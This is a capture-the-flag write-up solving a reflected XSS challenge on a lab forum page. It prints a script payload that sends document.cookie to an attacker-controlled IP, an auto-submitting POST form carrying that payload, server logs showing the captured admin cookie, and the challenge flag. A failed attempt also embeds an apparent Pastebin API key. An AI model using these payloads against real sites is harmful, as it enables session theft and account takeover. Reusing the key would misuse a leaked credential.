




# Cookie Monster

## Web: 200 points

## Challenge

A skid hacker who's out to get me is working on a forum. Right now the only accessible page is
http://challenges.laptophackingcoffee.org:1337/dev.php.

We've found his admin panel at
http://challenges.laptophackingcoffee.org:1337/dev.php?page=admin
and we know he's using cookies for authentication.

Steal his cookies and access the admin panel to delete the site.

He's on the LHC discord server as **@Elite Hacker#2489**. He's expecting his buddy Jerry to send him a link with some documentation. Maybe you can use that information somehow?

[ [Start](http://challenges.laptophackingcoffee.org:1337/dev.php) ]

Note: The server resets to default every 30 minutes. All progress will be lost.

## Solution

Open the [dev][1] page. There is a message text field and a submit button. Send some input like `hello world`:



Try `<h1>hello world</h1>`:



Is JavaScript allowed? Try `<script>alert("XSS")</script>`. Yes, JavaScript is allowed:



The webpage does not properly sanitize user input. This makes the page vulnerable to [cross-site scripting (XSS)][2].

Is this a [stored XSS][3] vulnerability? Check if the value entered persists across sessions by opening the [dev][1] page in another window. Notice that any input entered in one session does not carry over to another. Therefore, this is not a stored XSS vulnerability. Instead it is a [reflected XSS][4] vulnerability, where the user's input is immediately returned by the web application.

Inspect how the webpage accepts user input. Inspect the page using Chrome. Click the **Network** tab, type in some input like `hello world`, and click the **Submit** button. Click the **dev.php** item in the requests list and examine the details:

```
Request URL: http://challenges.laptophackingcoffee.org:1337/dev.php
Request Method: POST
Form Data: message=hello+world
```

The webpage used the POST request method and sent a `message` variable with the user's input of `hello world`. This is also confirmed in the form's html:

```html
<form action="/dev.php" method="post">
  Message: <input type="text" name="message"><br>
  <input type="submit" value="Submit">
</form>
```

To take advantage of this vulnerability, a web server is needed. Open up Google Cloud Platform and spin up a free virtual machine. 

```
******************************************
TODO: Add google cloud set up instructions
******************************************
https://cloud.google.com/sdk/docs/downloads-snap
Install google-cloud sdk:
$ snap install google-cloud-sdk --classic
$ gcloud init
```

Install Apache web server:

```
******************************************
TODO: Add apache install instructions
******************************************
```

Now Apache is installed, paste the VM's public IP into the browser and load the default web page. 

Load up the python simple server on port 8888:
```
$ python3 -m http.server 8888
```

Now try to send it a cookie by visiting a url like this:
```
http://0.0.0.0:8888/?c=THIS_IS_A_COOKIE
```

Boom cookie sent!
```
64.44.81.92 - - [25/Jun/2020 04:35:27] "GET /?c=THIS_IS_A_COOKIE HTTP/1.1" 200 -
```

```html
<script>
image = new Image(); 
image.src='http://34.70.24.215:8888/?c='+document.cookie;
</script>
```

```
64.44.81.92 - - [25/Jun/2020 04:37:26] "GET /?c=cookie=THIS_IS_COOKIE_MONSTER HTTP/1.1" 200 -
```

Since the vulnerable webpage accepts user input via a POST request, the XSS attack will need to initiate a POST request with the proper payload in order to steal Elite Hacker's cookie. Following the suggestion in [PortSwigger's blog][5], create a webpage called `cookie.html` that will deliver this payload:

```html
<html>
   <body>
      <h1>Hello Cookies!!</h1>
      <form 
        name=MyForm 
        action=http://challenges.laptophackingcoffee.org:1337/dev.php 
        method=post>
         <input type=hidden name=message value="<script>
            image = new Image(); 
            image.src='http://34.70.24.215:8888/?c='+document.cookie;
            </script>">
      </form>
      <script>
         document.MyForm.submit();
      </script>
   </body>
</html>
```

Verify that the page works by visiting the url: 
```
http://0.0.0.0/cookie.html
```

It works. Now wake up Elite Hacker, mention Jerry, and send the malicious link:



Wait for Elite Hacker to click. Monitor the python server for activity:

```
z@test-lab:/var/www/html$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
64.44.81.92 - - [25/Jun/2020 02:41:06] "GET /?c=_ga=GA1.2.1731152959.1592886096 HTTP/1.1" 200 -
35.237.149.50 - - [25/Jun/2020 02:41:54] "GET /?c=lhcxssadmin=true HTTP/1.1" 200 -
```

Just like that. Cookie captured: `lhcxssadmin=true`. Now visit the [admin][6] page. Enter this cookie manually via Chrome dev tools. Refresh:

```
H4X1N6 F0RU|V| D3\/

Your flag is LHC{P05t3d_4_an_xSs}
```

## Failed Attempts

XMLHttpRequest:
```
Access to XMLHttpRequest at 'http://challenges.laptophackingcoffee.org:1337/dev.php' from origin 'http://34.70.24.215' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

Pastebin:
```html
<script>
// 1. api_dev_key - which is your unique API Developers Key.
// 2. api_option - set as paste, this will indicate you want to create a new paste.
// 3. api_paste_code - this is the text that will be written inside your paste.
let data = {api_dev_key: "ef18a18477ac0ba892c5ecef221bc779", api_option: "paste", api_paste_code: "hello world"};
fetch("https://pastebin.com/api/api_post.php", {
  method: "POST", 
  body: JSON.stringify(data)
}).then(res => {
  console.log("Request complete! response:", res);
});
</script>
```

## Resources

* https://www.w3schools.com/jsref/met_node_appendchild.asp
* https://stackoverflow.com/questions/6396101/pure-javascript-send-post-data-without-a-form
* https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page
* https://www.youtube.com/watch?v=HbzI3ubOos0
* https://owasp.org/www-community/Types_of_Cross-Site_Scripting
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://www.youtube.com/watch?v=LrjpcR-IJwY
https://ubuntu.com/tutorials/install-and-configure-apache#2-installing-apache
https://www.youtube.com/watch?v=fMqFxV_0-DQ
https://cloud.google.com/free/
https://cloud.google.com/sdk/docs/downloads-snap

[1]:http://challenges.laptophackingcoffee.org:1337/dev.php
[2]:https://en.wikipedia.org/wiki/Cross-site_scripting
[3]:https://owasp.org/www-community/attacks/xss/#stored-xss-attacks
[4]:https://owasp.org/www-community/attacks/xss/#reflected-xss-attacks
[5]:https://portswigger.net/blog/exploiting-xss-in-post-requests
[6]:http://challenges.laptophackingcoffee.org:1337/dev.php?page=admin
[7]:https://portswigger.net/web-security/cross-site-scripting/reflected